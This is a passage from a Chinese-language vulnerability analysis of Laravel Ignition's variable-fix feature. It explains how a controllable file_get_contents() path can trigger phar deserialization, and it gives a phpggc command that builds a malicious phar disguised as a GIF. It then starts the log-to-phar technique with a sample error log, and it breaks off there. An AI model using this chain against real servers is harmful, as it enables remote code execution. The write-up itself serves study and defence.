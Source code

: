 可以看到这里主要功能点是：读取一个给定的路径，并替换`$variableName`为`$variableName ?? ''`，之后写回文件中。  
由于这里调用了`file_get_contents()`，且其中的参数可控，所以这里可以通过`phar://`协议去触发 phar 反序列化。  
如果后期利用框架进行开发的人员，写出了一个文件上传的功能。那么我们就可以上传一个恶意 phar 文件，利用上述的`file_get_contents()`去触发 phar 反序列化，达到 rce 的效果。

### phar 反序列化

从 phpggc 里拿一条 laravel 中存在的拓展的链子。

```
./phpggc monolog/rce1 call_user_func phpinfo --phar phar -o /Applications/MxSrvs/www/laravel/phar.gif


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210114180543-105fb2b8-5650-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210114180543-105fb2b8-5650-1.jpg)  
是可以成功利用的。  
但是原文作者给出了一种基于框架触发 phar 反序列化的方法：将 log 文件变成合法的 phar 文件。

### log 转 phar

先来看看正常的 log 文件长什么样

*   `/storage/logs/laravel.log`

```
[2021-01-14 04:32:43] local.ERROR: file_get_contents(AA): failed to open stream: No such file or directory {"exception":"[object] (ErrorException(code: 0): file_get_contents(AA): failed to open stream: No such file or directory at /Applications/MxSrvs/www/laravel/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php:75)
[stacktrace]
#0 [internal function]: Illuminate\\Foundation\\Bootstrap\\HandleExceptions->handleError(2, 'file_get_conten...', '/Applications/M...', 75, Array)
#1 /Applications/MxSrvs/www/laravel/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php(75): file_get_contents('AA')
#2 /Applications/MxSrvs/www/laravel/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php(67): Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution->makeOptional(Array)
#3 /Applications/MxSrvs/www/laravel/vendor/facade/ignition/src/Http/Controllers/ExecuteSolutionController.php(19): Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution->run(Array)
#4 /Applications/MxSrvs/www/laravel/vendor/laravel/framework/src/Illuminate/Routing/ControllerDispatcher.php(48): Facade\\Ignition\\Http\\Controllers\\ExecuteSolutionController->__invoke(Object(Facade\\Ignition\\Http\\Requests\\ExecuteSolutionRequest), Object(Facade\\Ignition\\SolutionProviders\\SolutionProviderRepository))
#5 /Applications/MxSrvs/www/laravel/vendor/laravel/framework/src/Illuminate/Routing/Route.php(254): Illuminate\\Routing\\ControllerDispatcher->dispatch(Object(Illuminate\\Routing\\Route), Object(Facade\\Ignition\\Http\\Controllers\\ExecuteSolutionController), '__invoke')
#6 /Applications/MxSrvs/www/laravel/vendor/laravel/framework/src/Illuminate/Routing/Route.php(197): Illuminate\\Routing\\Route->runController()
...
#34 /Applications/MxSrvs/www/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Http/Kernel.php(110): Illuminate\\Foundation\\Http\\Kernel->sendRequestThroughRouter(Object(Illuminate\\Http\\Request))
#35 /Applications/MxSrvs/www/laravel/public/index.php(52): Illuminate\\Foundation\\Http\\Kernel->handle(Object(Illuminate\\Http\\Request))
#36 /Applications/MxSrvs/www/laravel/server.php(21): require_once('/Applications/M...')
#37 {main}
"}

```
